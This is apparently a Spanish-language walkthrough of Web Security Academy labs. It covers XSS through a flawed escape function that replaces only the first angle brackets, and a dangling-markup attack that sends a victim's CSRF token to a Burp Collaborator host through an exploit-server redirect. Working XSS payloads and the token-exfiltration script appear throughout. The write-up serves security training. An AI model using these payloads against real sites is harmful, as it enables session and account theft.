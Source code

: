 El metodo **replace** solo remplaza la primera coincidencia, no las demás, entonces analizando el codigo del JS, encontramos la funcion siguiente:

```javascript
    function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
```

Entonces debemos suponer que solo reemplazará los primeros **< >**. Entonces nuestro payload para el comentario seria el siguiente:

```
<><img src=x onerror=alert(1)>
```

![](img62.png)

## 28. Lab: Reflected XSS protected by CSP, with dangling markup attack

```
This lab uses CSP to mitigate against XSS attacks.

To solve the lab, perform a dangling markup attack that steals a CSRF token and uses it to change the email address of another user. You can use the following credentials to log in for testing:

Username: wiener
Password: peter
```

Nos logeamos con las credenciales que nos dan, y cambiamos nuestro correo interceptando los paquetes en segundo plano. Podemos ver que si colocamos en el recurso **/email** el parametro **email** obtenemos que nos encontramos con una vulnerabilidad XSS.

![](img63.png)

Entonces usaremos el siguiente payload:

```
"><table background='//0gh5ibpa36x54ki12dydtmnfn6twhl.burpcollaborator.net?
```

Entonces en el exploit server usaremos la siguiente configuracion:

```html
<script>
location='https://aceb1fd01e82d058800aa188005b00f1.web-security-academy.net/email?email=%22%3E%3Ctable%20background=%27//0gh5ibpa36x54ki12dydtmnfn6twhl.burpcollaborator.net?';
</script>
```

Luego hacemos clic en **store** y en **Deliver exploit to victim**. Luego revisamos en el burp intruden para ver si recolectamos el token.

![](img64.png)
